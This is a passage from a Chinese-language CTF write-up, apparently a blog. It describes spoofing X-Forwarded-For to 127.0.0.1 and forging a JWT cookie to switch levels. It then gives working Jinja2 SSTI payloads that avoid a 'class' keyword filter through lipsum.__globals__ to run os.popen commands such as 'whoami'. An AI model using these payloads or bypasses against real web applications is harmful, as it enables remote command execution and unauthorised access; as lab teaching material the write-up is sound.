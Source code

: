 ![image-20241006195529753](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410061955818.png)

就进入了下一关，页面提示localhost，我们修改xff为127.0.0.1

![image-20241006195614539](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410061956748.png)

得到了jwt的密钥，我们修改关卡为第0关（因为没找到第七关）

![image-20241006195653460](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410061956512.png)

再在网页修改cookie

进入第0关

![image-20241006195726115](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410061957226.png)



我们点击从梦中醒来，过完剧情就得到了flag（歌挺好听的，真不容易啊）

![image-20241006195918946](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410061959049.png)

### week2

### 复读机

![image-20241006214534903](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410062145938.png)

我们发现这是一个ssti模版注入的题

但经过我们测试，过滤了class

一旦提交包含class的字符串

bot就会报错

![image-20241006214640452](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410062146532.png)

那我们就不使用包含class的ssti注入语句

```
{%print lipsum.__globals__['__builtins__']['__import__']('os')['popen']('whoami').read()%}
```

![image-20241006220733033](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410062207070.png)

成功读取到用户名

```
{%print lipsum.__globals__['__builtins__']['__import__']('os')['popen']('cat ..').read()%}
```

![image-20241006220823675](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410062208759.png)

### 你能在一秒内打出八句英文吗

![image-20241007184354556](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410071844731.png)
